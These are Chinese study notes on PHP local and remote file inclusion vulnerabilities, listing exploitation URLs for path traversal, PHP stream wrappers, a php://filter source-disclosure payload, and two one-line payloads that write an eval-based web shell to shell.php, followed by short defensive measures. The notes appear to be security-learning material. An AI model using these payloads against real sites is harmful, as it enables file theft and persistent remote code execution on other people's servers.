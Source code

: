 - 本地文件包含

  - 特点http://127.0.0.1/file-include.php?filepath=../phpinfo.php

- 远程文件包含RFI

  php.ini需要开启allow_url_include()/allow_url_fopen()

  - 特点?filepath=http://192.168.16.136/phpinfo.php

- 要有文件包含函数
  include/include_once/require/require_once

- 动态包含实例代码![img](https://api2.mubu.com/v3/document_image/71f07f4d-d5c1-463c-ba79-40322c94f940.png)

- 该漏洞在PHP中比较常见

- 利用方式

  - 读取敏感文件?filepath=c:/windows/system32/drivers/etc/hosts绝对路径读；相对路径读?filepath=../../../../../../windows/system32/drivers/etc/hosts

    - 封装的协议

      - file://访问本地文件系统

      - http:// 访问 HTTP(s) 网址

      - ftp:// 访问 FTP(s) URLs

      - php://  访问各个输入/输出流（I/O streams）

      - zlib://  压缩流

      - data://  数据（RFC 2397）

      - glob://  查找匹配的文件路径模式

      - phar://  PHP 归档

      - ssh2://  Secure Shell 2

      - rar://  RAR

      - ogg://  音频流

      - expect://  处理交互式的流

  - 包含图片马（因为他对包含的文件的内容都无条件去读取）

  - 读取PHP文件源码?filepath=php://filter/read=convert.base64-encode/resource=[目标文件]

  - 执行PHP命令php://input![img](https://api2.mubu.com/v3/document_image/ff1dccdc-91bc-4ff8-93c8-08c17da2ea2b.png)

  - 写入shell![img](https://api2.mubu.com/v3/document_image/efec7670-0b66-49b5-a0a6-5d75aef63dca.png)
    <?php  fputs(fopen("shell.php",'w'),'<?=@eval($_REQUEST[777]);phpinfo();?>')?> 
    <?php file_put_contents('shell.php','<?php @eval($_REQUEST[777])?>')?

- 防御方式

  - 禁止远程文件包含off

  - 配置访问的路径为指定目录，限制访问区域

  - 过滤../等特殊符号

  - 修改日志文件的存放地址
    apache的在/var/log/apache2/access.log